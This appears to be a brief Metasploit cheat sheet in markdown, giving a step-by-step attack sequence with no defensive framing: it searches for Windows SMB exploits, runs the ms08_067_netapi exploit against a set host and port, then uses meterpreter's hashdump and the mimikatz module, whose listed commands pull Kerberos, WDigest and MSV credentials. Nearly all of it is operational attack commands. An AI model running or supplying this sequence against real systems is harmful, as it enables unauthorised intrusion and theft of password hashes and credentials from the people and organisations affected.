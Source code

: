 ## msfconsole (msf | metaspolit)

#### Search

##### Search for SMB Exploits on Windows
`msf > search exploit/windows/smb`

#### Options

##### exploit/windows/smb/ms08_067_netapi Options
`msf exploit(ms08_067_netapi) > show options`

#### Attack

##### Attack SMB for Windows
`msf > use exploit/windows/smb/ms08_067_netapi`
`msf exploit(ms08_067_netapi) > set RHOST 10.37.129.9`
`msf exploit(ms08_067_netapi) > set RPORT 445`
`msf exploit(ms08_067_netapi) > exploit`

#### meterpreter

##### help
`meterpreter > help`

##### hashdump
`meterpreter > hashdump`

#### mimikatz

##### load mimikatz
`meterpreter > load mimikatz`

##### options

Command | Description
--- | ---
kerberos | Attempt to retrieve kerberos creds
livessp | Attempt to retrieve livessp creds
mimikatz_command | Run a custom command
msv | Attempt to retrieve msv creds (hashes)
ssp | Attempt to retrieve ssp creds
tspkg | Attempt to retrieve tspkg creds
wdigest | Attempt to retrieve wdigest creds
